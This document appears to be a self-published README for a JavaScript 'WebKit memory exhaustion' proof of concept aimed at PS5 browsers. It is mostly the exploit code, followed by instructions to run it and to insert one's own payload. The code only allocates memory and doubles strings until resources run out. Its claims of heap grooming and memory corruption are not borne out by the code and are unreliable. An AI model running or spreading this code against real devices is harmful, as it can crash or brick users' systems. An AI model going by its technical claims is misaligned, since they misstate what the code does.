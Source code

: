 https://seregonwar.github.io/Overflow/


**Author:https://x.com/idebty?t=MT_ShLOs9wP9hcH3GNtkNA&s=09**
I'm self taught I don't know any one in the community if you want to use this use it but credit me.
# WebKit Memory Leak PoC

## Description
This Proof of Concept (PoC) demonstrates a WebKit memory exhaustion exploit that I have been working on. The current iteration works but still needs to be fully exploited. Below is the JavaScript code that shows how it operates, along with explanations of each step.

## How it Works
The code below follows five key steps:

1. **Heap Initialization**: Allocates memory in a controlled manner.
2. **Heap Grooming**: Manipulates memory to create gaps for the exploit.
3. **Memory Exhaustion**: Continuously allocates and clears memory to exhaust resources.
4. **Payload Execution**: Executes the payload to perform memory corruption.
5. **Exploit Execution**: Runs the steps in sequence to trigger the memory exhaustion.

## Code
```javascript
// Step 1: Initialize Controlled Memory
function initializeHeap() {
    //alert("Int heap");
    let buffers = [];
    for (let i = 0; i < 2048; i++) { // Reduced allocations
        buffers.push(new ArrayBuffer(500000)); // Smaller blocks of memory
    }
    return buffers;
}

// Step 2: Groom the Heap
function groomHeap() {
    //alert("groom heap");
    let tempArray = [];

    // Allocate and deallocate in patterns
    for (let i = 0; i < 2048; i++) { // Reduced iterations
        let buffer = new ArrayBuffer(1000); // Allocate smaller blocks
        tempArray.push(buffer);
    }

    // Deallocate some of the buffers to create holes in the heap
    for (let i = 0; i < 1512; i++) { // Fewer deallocations
        tempArray[i] = null; // Free up space to create holes in the heap
    }

    return tempArray;
}

// Step 3: Memory Exhaustion Function
function memExh() {
    let bufferArray = [];
    for (let i = 0; i < 2048; i++) { // Reduced iterations
        bufferArray.push(new ArrayBuffer(900000)); // Allocate smaller buffers
        if (bufferArray.length > 512) { // Less aggressive clearing
            bufferArray = []; // Clear buffer array to exhaust memory
        }
    }
}

// Step 4: The Exploit Payload Function
function payload() {
    let largeString = "B".repeat(900000); // Smaller initial string
    let obj = {};
    let iterationCount = 0; // Counter to track number of iterations

    while (true) {
        // String concatenation
        largeString += largeString;
        if (largeString.length > 100000000) { // Lower threshold for reset
            largeString = "B".repeat(900000); // Reset string to avoid overflow
        }
        memExh();
        iterationCount++;
        if (iterationCount > 64) break; // Control the number of iterations
    }
}

// Step 5: Perform the Exploit
function performExploit() {
    let controlledBuffers = initializeHeap(); // Initialize the heap
    let groomedHeap = groomHeap(); // Groom the heap
    
    // Start memory corruption
    memExh();

    // Run the payload
    payload();
}

performExploit();
```
##**Instructions**

1. Copy the above code and run it in a Exploitable PS5(Works Untill guess 9.60?) this might not be useful in ps4


2. Be mindful that this is a PoC and should be used for educational purposes only.


3. Further testing is required to fully understand this vulnerability.

4.Place Your Payload in the payload function

Disclaimer

This PoC is for educational purposes only. The author is not responsible for any misuse of this code.
##**IM NOT LIABLE TO ANY DAMAGES CAUSED BY THIS POC OR ANY OTHER USE OF IT THIS CAN BRICK AND MIGHT BRICK YOUR SYSTEM IF LEFT UNEDITED **


